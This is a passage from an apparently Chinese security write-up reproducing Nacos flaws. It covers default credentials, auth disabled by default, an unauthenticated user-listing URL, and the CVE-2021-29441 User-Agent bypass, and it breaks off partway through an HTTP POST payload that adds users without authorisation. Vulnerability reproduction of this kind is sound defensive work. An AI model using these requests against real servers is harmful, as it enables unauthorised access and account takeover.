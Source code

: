   
![1745676439_680ce8977ba83f892f2d1.png!small?1745676440499](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia8pwbqnav29icGdAlvpPTKmCfQibr3mZWCL5tLXA3zTjRzsgBNafcBISw/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
### 2. 默认口令  
  
访问 http://ip:8848/nacos/#/login进入登陆页面  
  
![1745676481_680ce8c16e23162484df7.png!small?1745676482450](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia0O0vrGkdtah21avqbuDeJxRXzksb5Yf06VyWOwsHVDIEdpdrEoJkKA/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
> 默认口令为： nacos/nacos  
  
### 3.默认未开启鉴权-未授权查看用户信息  
  
由于系统默认未开启鉴权 导致未授权访问  
> nacos.core.auth.enabled=false  
  
#### 漏洞复现  
  
测试版本：nacos1.4.0  
  
直接访问如下路径，未授权查看用户信息  
> /nacos/v1/auth/users?pageNo=1&pageSize=9  
  
  
![1745676647_680ce9670e9bd209e260a.png!small?1745676648311](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaqmJd48lMJgibATGuiaSqxlwzQ00Pnt2YaapUxpUHaCicmKMKhzXJic7qDA/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
### 4. User-Agent权限绕过（CVE-2021-29441）  
  
漏洞描述: 该漏洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的user-agent设置为Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。  
  
  
版本: <=Nacos 1.4.1 配置为使用身份验证（nacos.core.auth.enabled=true）  
  
直接访问下面的目录，可以未授权查看到账号密码  
> /nacos/v1/auth/users?pageNo=1&pageSize=100 //可查看到用户列表  
  
  
可以看下里面的账号密码，很多情况下账号密码都是这个暴露出来的username，和password信息  
  
![1745676741_680ce9c55f4947f8b971a.png!small?1745676742604](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaA9yJbOx2mwfib11UT7ZPsJbRxlsx41qOm155icZibHN6yVCfgKLI2VB2Q/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
未授权添加用户  
  
payload:  
> POST /nacos/v1/auth/users HTTP/1.1  
  
Host:   
  
User-Agent: Nacos-Server  
  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
  
Accept-Encoding: gzip, deflate, br  
  
Connection: keep-alive  
  
Upgrade-Insecure-Requests: 1  
  